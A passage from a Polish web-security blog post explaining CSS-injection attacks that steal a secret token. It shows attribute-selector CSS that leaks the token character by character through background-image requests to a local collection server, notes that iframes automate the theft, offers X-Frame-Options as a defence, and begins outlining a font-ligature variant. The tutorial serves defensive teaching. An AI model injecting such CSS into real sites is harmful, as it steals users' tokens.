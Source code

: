 <pre class="language-css"><code>#secret-token[value^=AA] {
    background-image: url(http://localhost:3001/token/A);
}
#secret-token[value^=AB] {
    background-image: url(http://localhost:3001/token/B);
}
#secret-token[value^=AC] {
    background-image: url(http://localhost:3001/token/C);
}
…</code></pre>

<strong>I tak dalej, i tak dalej, aż znajdziesz wszystkie znaki w tokenie.</strong>

Czy to oznacza jednak, że użytkownik będzie musiał sam, dobrowolnie, wiele razy odświeżać stronę i pozwoli się w ten sposób okraść? Wcale nie jest to konieczne, <strong>jeśli tylko aplikację można osadzić wewnątrz <code>&lt;iframe&gt;</code> — wtedy atak można w pełni zautomatyzować</strong>. Na filmiku poniżej możesz zobaczyć kradzież kolejnych znaków z prostego tokena <code>cielecina1</code>:

https://youtu.be/dX8J0LBMlCY

<h3>Jak zapobiegać?</h3>

No, jeśli masz buga, która pozwala na wstrzykiwanie CSS to po prostu go napraw… i tak dalej ;) Z bezpieczeństwa aplikacji możemy Cię też podszkolić: <a href="https://szkolenia.typeofweb.com/" target="_blank">zapisz się na szkolenie z security</a>. Mocno utrudnisz też sprawę jeśli <strong>nie zezwolisz aby Twoja aplikacja była osadzana wewnątrz <code>&lt;iframe&gt;</code></strong>. W dzisiejszych czasach można to zrobić dość łatwo, wystarczy tylko dodać jeden nagłówek do odpowiedzi z serwera: <code>X-Frame-Options: DENY</code>

<h2>Atak z wykorzystaniem ligatur</h2>

Wiesz co to jest ligatura? To czcionka (lub glif) w której zamiast dwóch sąsiadujących osobnych liter używa się nowego specjalnego znaku, który powstał z połączenia tych liter. Przykładowo, za wikipedią, możemy wymienić takie kombinacje liter i odpowiednie dla nich ligatury:

<a href="https://res.cloudinary.com/type-of-web/wp-content/uploads/2017/12/Ligatures.png"><img class="aligncenter size-full wp-image-862" src="https://res.cloudinary.com/type-of-web/wp-content/uploads/2017/12/Ligatures.png" alt="Popularne ligatury" width="555" height="514" /></a>

Dzięki nim tekst ma być bardziej czytelny i piękny :) <strong>Ja też używam na tym blogu specjalnych ligatur do formatowania kodu.</strong> Przykładowo: <code>=&gt;</code> zamiast <code>=</code> i <code>&gt;</code> albo <code>!==</code> zamiast <code>!</code> <code>=</code> <code>=</code>. Wykorzystuję do tego fonta <a href="https://github.com/tonsky/FiraCode">FiraCode</a>.

<h3>Podatność</h3>

Jak widzisz, w webdevelopmencie również istnieje możliwość używania ligatur. Co to <em>de facto</em> oznacza w kontekście hackowania? Oznacza to, że <strong>możesz wpływać na dowolne kombinacje znaków na stronie…</strong> a więc możesz zastosować trick podobny do tego z atrybutami, zgadywać kolejne symbole w tokenie, znak po znaku… Jest to nieco bardziej skomplikowane niż poprzednie przykłady, ale wykonalne! Co musisz zrobić?

<ul>
    <li>dynamicznie generuj fonta</li>
    <li>zdefiniuj, że wszystkie znaki mają wielkość 0px</li>
    <li>zdefiniuj, że konkretna ligatura ma wielkość 5000px</li>
</ul>
